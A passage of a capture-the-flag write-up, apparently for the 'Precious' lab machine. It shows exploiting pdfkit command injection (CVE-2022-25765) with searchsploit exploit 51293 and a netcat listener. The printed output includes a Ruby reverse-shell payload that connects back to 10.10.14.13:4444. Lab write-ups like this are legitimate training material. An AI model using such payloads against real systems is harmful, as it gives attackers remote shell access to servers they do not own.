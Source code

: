 ## Gaining access

### pdftk v0.8.6

Searching for a vulneravility in pdftk, an interesting one can be found :

```shell
searchsploit pdfkit
```

Result:

```text
tle                                               |  Path
------------------------------------------------------------- ---------------------------------
pdfkit v0.8.7.2 - Command Injection                          | ruby/local/51293.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

get the exploit :

```shell
searchsploit -m 51293
```

Analysing the code, the vulnerabilitry is known as CVE-2022–25765, a remote command injection.

By providing some specific instruction, it is possible to ask pdftk to execute some instructions.

We can use the exploit to directly create an HTML payload: instead of providing an URL, it will provide the payload in the POST request (parameter `url`).

Start a listener :

```shell
nc -nvlp 4444
```

```shell
python3 ./51293.py -p url -w http://precious.htb/ -s 10.10.14.13 4444
```

Result:

```text
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.13","4444"))'`
LOCALIP: 10.10.14.13:4444
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 4444".
WEBSITE: http://precious.htb/
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.
```
